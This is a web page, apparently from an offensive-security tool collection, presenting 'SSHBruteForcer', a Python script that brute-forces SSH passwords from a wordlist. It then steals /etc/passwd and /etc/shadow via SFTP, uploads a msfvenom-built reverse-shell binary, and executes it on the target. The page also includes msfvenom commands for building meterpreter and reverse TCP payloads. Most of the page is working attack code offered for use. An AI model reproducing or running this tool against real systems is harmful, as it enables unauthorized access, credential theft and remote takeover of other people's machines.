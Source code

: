 ```yaml
---
layout: attack
title: SSHBruteForcer
---
```


<img height="160" align="left" src="/images/ssh-bruteforcer.png">
Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access.

## Preconditions

1. Prepare a reverse shell for an automated upload if the brute forcing is successful:
   ```bash
   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
   msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > /tmp/shell.elf
   ```
2. Prepare your wordlist and save it as `wordlist.txt` next to the python script
3. *Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newer versions of the dependencies should work but I haven't tested them:

   ```
   paramiko==2.7.2
   pwncat==0.4.3
   pwntools==4.6.0
   ```

## The Tool
Make sure that you fulfilled the Preconditions

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
   # Download   
   filepath = "/etc/passwd"
   localpath = "/home/user/passwd.txt"
   sftp.get(filepath,localpath)
   
   filepath = "/etc/shadow"
   localpath = "/home/user/shadow.txt"
   sftp.get(filepath,localpath)

   # Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
    try:  
       stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
       print(stdout.read().decode())
       break
    except KeyboardInterupt:
        print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))
   
```
